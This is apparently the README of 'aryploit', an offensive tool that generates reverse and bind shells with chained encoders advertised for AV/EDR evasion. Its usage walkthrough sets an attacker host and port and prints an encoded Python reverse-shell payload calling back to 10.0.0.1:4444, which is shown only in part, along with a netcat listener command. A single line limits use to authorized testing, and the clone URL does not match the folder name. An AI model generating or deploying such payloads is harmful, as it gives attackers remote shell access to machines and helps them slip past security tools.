 <div align="center">
  <h1>🔥 ARYPLOIT</h1>
  <p>
    <strong>Metasploit-style reverse/bind shell generator with advanced encoders for red teamers & pentesters</strong>
  </p>

</div>

---

## **🚀 What is ARYPLOIT?**
**aryploit** is a **Metasploit-inspired**, **all-in-one payload generator** for **reverse shells, bind shells, and advanced encoding**. Built for **red teamers, pentesters, and CTF players**, it simplifies payload generation with **10+ encoders**, **cross-platform support (Linux/Windows/Web)**, and **evasion techniques** to bypass AV/EDR.

⚠️ **For authorized testing & educational purposes only.**

---

## **🔥 Features**
✅ **100+ Payloads** – Reverse & bind shells for **Linux, Windows, PHP, ASP, JSP, PowerShell, Python, Ruby, Perl, and more**.
✅ **Advanced Encoders** – Chain **Base64, URL, Hex, ROT13, XOR, Caesar, Binary, Octal, HTML, Unicode** for evasion.
✅ **Search & Filter** – Quickly find payloads with `search payload linux` or `search encoders base64`.
✅ **Listener Examples** – Auto-generate **Netcat, Socat, Python** listener commands.
✅ **Modular & Extensible** – Easy to add **custom payloads, encoders, and listeners**.
✅ **CTF & Red Team Ready** – Designed for **real-world engagements** and **capture-the-flag challenges**.

---

## **📌 Installation**
### **From GitHub (Recommended)**
```bash
git clone https://github.com/giriaryan694-a11y/aryploi.git
cd aryploit


pip3 install -r requirements.txt
python3 aryploit.py

1. List Payloads
 Copyaryploit > list rev_payloads linux
reverse/linux/bash_tcp
reverse/linux/python
reverse/linux/perl
...
Filter by keyword:
 Copyaryploit > search payload tcp
reverse/linux/bash_tcp
reverse/windows/powershell
...
2. Select a Payload
 Copyaryploit > use reverse/linux/bash_tcp
[+] Loaded payload: reverse/linux/bash_tcp
Or use set payload:
 Copyaryploit > set payload reverse/linux/bash_tcp
3. Set LHOST & LPORT
 Copyaryploit > set lhost 10.0.0.1
aryploit > set lport 4444
4. Apply Encoders (Single or Chained)
 Copyaryploit > set encoder base64,url,hex
[+] Encoder chain set: base64, url, hex
5. Generate Payload
 Copyaryploit > generate
[+] Generated Payload:
aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjAuMC4xIiw0NDQ0KSk7b3MuZHVwMjoocy5maWxlbm8oKSwMCk9TKSwgb3MuZHVwMjoo...
6. Start a Listener
 Copyaryploit > listener nc
[+] Listener Example (nc): nc -lvnp 4444
